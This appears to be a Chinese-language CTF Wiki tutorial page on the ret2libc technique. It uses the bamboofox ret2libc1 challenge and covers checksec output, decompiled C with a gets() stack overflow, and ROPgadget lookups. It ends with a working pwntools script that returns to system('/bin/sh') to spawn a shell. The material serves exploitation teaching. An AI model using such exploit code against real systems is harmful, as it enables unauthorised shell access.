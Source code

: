 ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置(即函数对应的 got表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

### 例子

我们由简单到难分别给出三个例子。

#### 例1

这里我们以 bamboofox 中 ret2libc1 为例  

点击下载: [ret2libc1](https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2libc1/ret2libc1)

首先，我们可以检查一下程序的安全保护

```shell
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为 32 位，开启了 NX 保护。下面来看一下程序源代码，确定漏洞位置

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行 gets 函数的时候出现了栈溢出。此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在

```shell
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有 system 函数存在。经在 ida 中查找，确实也存在。

```asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那么，我们直接返回该处，即执行 system 函数。相应的 payload 如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
